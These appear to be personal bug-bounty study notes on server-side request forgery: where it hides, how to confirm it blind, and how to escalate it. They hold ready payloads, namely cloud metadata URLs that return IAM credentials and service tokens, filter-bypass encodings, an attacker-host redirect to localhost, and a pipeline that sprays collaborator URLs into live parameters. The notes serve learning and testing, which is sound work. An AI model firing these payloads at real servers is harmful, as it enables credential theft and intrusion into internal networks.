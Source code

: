 ### what & why
> a vulnerability that lets an attacker send requests on behalf of a server, which allowing them to assume a privileged position on a network, bypass firewall controls, and gain access to internal services
### types
1. regular SSRF 
2. blind SSRF, the attacker does not receive feedback from the server via an HTTP response or an error message. can found via out-of-band DNS resolve request, or out-of-band HTTP request and then monitor your server logs, look for the server request headers
### Prevention
if the server does not make a distinction between internal and external resources this cuz the vulnerability, Two main types of protection against SSRFs exist: 
1. blocklists, The server will block a request if it contains a blocklisted address as input
2. allow-lists, The server will allow a request if url found in the allow-list
### hunt for it 
1. Spot Features Prone to SSRFs
	- SSRFs occur in features that require visiting and fetching external resources. These include webhooks, file uploads, document and image processors, link expansions or thumbnails, and proxy services.
		- Webhooks are custom HTTP callback endpoints used as a notification system for certain application events: such as new user sign-up or application error occurs
		- [H1 report](https://hackerone.com/reports/2301565)
	- any endpoint that processes a user-provided URL: imageURL,.. or any third-party software they may be using such as Jira
	- URLs embedded in files that are processed by the application (XML files and PDF files can often be used to trigger SSRFs)
	- hidden API endpoints that accept URLs as input, and input that gets inserted into HTML tags
	- test found open redirect
2. Provide Potentially Vulnerable Endpoints with Internal URLs
	- test how they handle local redirect by set up 302 response, or JS using pipdream, or NGrok. also u can sleep(1000) before the redirect
	- burp collaborator, intrach burp plug-in 
3. Check the Results for A service banner, errors
4. Since you cannot use blind SSRFs to read internal files or access internal services, u need to confirm it by explore internal network(Subnet scan), or port scan. and You can look especially for differences in response time and HTTP response codes, keep in mind may there are a firewall inplace.
5. Escalating the Attack
	1. scan the network for reachable hosts. find getway(10.0.0.1, 192.168.1.1) to locate the subnet 
	2. port-scan internal machines to fingerprint internal services. add port to payload url 
	3. collect instance metadata and get [[RCE]]
		Cloud computing services allow businesses to run their applications on other people’s servers, and offers an instance metadata tool that enables EC2 instances(VMs) to access data about themselves by querying the API endpoint at 169.254.169.254 `http://[::ffff:a9fe:a9fe]` IPv6 
		1. Querying EC2 Metadata: `http://169.254.169.254/latest/meta-data/`
			- http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.
			- http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.
			- http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE _NAME returns the security credentials of that role.
			- http://169.254.169.254/latest/dynamic/instance-identity/document/ reveals the private IP address of the current instance.
			- http://169.254.169.254/latest/user-data/ returns user data on the current instance.
		1. Querying Google Cloud Metadata
		   Google implements additional security measures for its API endpoints, so querying Google Cloud Metadata APIv1 requires one of these special headers:
		   `Metadata-Flavor: Google`, `X-Google-Metadata-Request: True`
		   > bypass this protection, because most endpoints accessible through `APIv1` can be accessed via the `API v1beta1` endpoints instead. API v1beta1 is an older version of the metadata API that doesn’t have the same header requirements
			- http://metadata.google.internal/computeMetadata/v1beta1/instance/serviceaccounts/default/token returns the access token of the default account on the instance.
			- http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ ssh-keys ret
		1. DigitalOcean: http://169.254.169.254/metadata/v1/endpoint
		2. Kubernetes: https://kubernetes.default and https://kubernetes.default.svc/metrics
	1. bypass access controls may there are `admin.example.com`,APIs that only accessible throw intern connection
### bypass Protection
- Bypass Allowlists: by play with url => `https://pics.example.com@127.0.0.1` , `https://127.0.0.1/pics.example.com` , use a redirect function on `https://pics.example.com`
- Bypass Blocklists
	- Fooling It with Redirects: 
	  `https://public.example.com/proxy?url=https://attacker.com/ssrf`  where `attakcer.com` host `<?php header("location: http://127.0.0.1"); ?>`
	  - Using IPv6 Addresses: `::1` = localhost , `fc00::` is the first address on the private network.
	  - Tricking the Server with DNS: Modify the A/AAAA record of a domain you control and make it point to the internal addresses on the victim’s network. or just use online ones such: `hackingwithpentesterlab.link`, `spoofed.burpcollaborator.net`, `assets.pentesterlab.com.hackingwithpentesterlab.link`
	  - use alternative address: [http://0.0.0.0:1234], 
	  - Switching Out the Encoding
		  - 127.0.0.1 in decimal translates to `http://0x7f.0x0.0x0.0x1` in hex
		  - 127.0.0.1 translates to `http://0177.0.0.01` in octal
		  - 127.0.0.1 is the decimal representation of 01111111.00000000.00000000.00000001
		    When we translate the entire number, $(01111111000000000000000000000001)b$ = $(2130706433)dec$ so `https://2130706433` instead of `https://127.0.0.1`
	- URL-encoded: `https://localhost` => `https://%6c%6f%63%61%6c%68%6f%73%74` 
	- combined together `http://0177.0.0.0x1` , `http://127.0.1`, `http://127.1`

### automation
[SSRFmap](https://github.com/swisskyrepo/SSRFmap/),
```
Step 1: Subdomain Enumeration 
•DNS Dumpster •Sublist3r •Amass •Google Dorking •Certificate Transparency Logs •subdomainer
Step 2: Find Live Domains cat all-domains.txt | httpx > all-live.txt
Setp 2b: wayback machine: cat all-live.txt | python3 waymore.py | anew

Step 3: Identify All URLs cat all-live.txt | gauplus -subs -b png,jpg,gif,jpeg,swf,woff,gif,svg -o allUrls.txt

Step 4: Injection BurpCollaborator/Interactsh-Client URL in Parameters cat /home/casperino/tools/nuclei/httpx.txt | grep "=" | ./qsreplace http://40ga7gynfy6pcg06ov.oastify.com > ssrf.txt

  
Step 5: Test for SSRF Vulnerabilities cat ssrf.txt | httpx -fr

Step 6: How to check which URL is vulnerable split -l 10 ssrf.txt output_file_

```


other resources: file:///F:/Courses/02-cyber%20security/4-%20offensive%20security/PDFs/Offensive%20Security%20AWAE%20WEB-300%20OSWE.pdf page:437 a complete chapter(12) talked about how to exploit SSRF => port scanning, subnet scanning, mut more
